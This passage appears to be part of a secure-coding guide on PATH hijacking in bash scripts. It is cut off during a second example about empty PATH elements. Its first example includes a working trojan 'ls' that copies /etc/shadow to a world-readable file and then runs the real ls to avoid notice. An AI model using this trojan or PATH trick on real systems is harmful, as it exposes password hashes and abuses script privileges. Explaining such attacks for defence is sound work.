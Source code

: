 **Attack Example 1: Current Directory in PATH**

\`\`\`bash
# Vulnerable script (doesn't set PATH)
#!/bin/bash
# /usr/local/bin/backup.sh
set -euo pipefail

# Script intends to use system ls
ls -la /etc > /tmp/backup_list.txt
\`\`\`

**Attack:**
\`\`\`bash
# Attacker creates malicious 'ls' in /tmp
cat > /tmp/ls << 'EOF'
#!/bin/bash
# Steal sensitive data
cp /etc/shadow /tmp/stolen_shadow
chmod 644 /tmp/stolen_shadow
# Now execute real ls to appear normal
/bin/ls "$@"
EOF
chmod +x /tmp/ls

# Attacker sets PATH with /tmp first
export PATH=/tmp:$PATH

# When victim runs backup script from /tmp:
cd /tmp
/usr/local/bin/backup.sh

# Script executes /tmp/ls instead of /bin/ls
# Attacker's code runs with script's privileges
\`\`\`

**Attack Example 2: Empty PATH Element**

\`\`\`bash
# PATH with empty element (double colon)
PATH=/usr/local/bin::/usr/bin:/bin
